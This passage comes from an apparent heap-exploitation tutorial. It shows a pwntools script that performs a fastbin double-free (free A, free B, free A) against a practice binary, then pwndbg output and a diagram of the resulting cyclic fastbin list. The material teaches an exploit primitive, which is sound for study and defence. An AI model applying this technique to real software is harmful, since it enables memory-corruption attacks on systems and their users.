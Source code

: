 ```python
3) target
4) quit
> 
"""
# Step 1: Allocate chunks for the double-free attack
log.info("Allocating chunks for double-free attack...")

idx = 0
A = malloc(0x28, b'A'*0x28)  # Chunk A at index 0
B = malloc(0x28, b'B'*0x28)  # Chunk B at index 1

log.success("Chunks allocated successfully")

# Step 2: Execute the double-free bypass
log.info("Executing double-free bypass...")

free(A)  # Free chunk A → goes to fastbin
free(B)  # Free chunk B (intermediate) → goes to fastbin after A
free(A)  # Free chunk A again → bypasses double-free check!

io.interactive()

```


We can run this script and analyze the fastbins in GDB

```bash
$ ./double_free.py NOASLR GDB

# Press 'c' and Hit enter in GDB window
```

After the double-free bypass, let's examine the fastbins in GDB:

```python
# Then Break in GDB with `Ctrl + C`
# Then view the fastbins
pwndbg> fastbins 
fastbins
0x30: 0x603000 —▸ 0x603030 ◂— 0x603000
```
This confirms that we are able to double free a chunk and bypas the classic double free check.

**Visualizing the Corrupted Fastbin**

```txt
Fastbin Linked List After Double-Free:

+----------------+     +----------------+     +----------------+
|   CHUNK A      |     |   CHUNK B      |     |   CHUNK A      |
| 0x603000       |---->| 0x603030       |---->| 0x603000       |---+
| FD: 0x603030   |     | FD: 0x603000   |     | FD: 0x603030   |   |
+----------------+     +----------------+     +----------------+   |
    ^                                                              |
    +--------------------------------------------------------------+
```
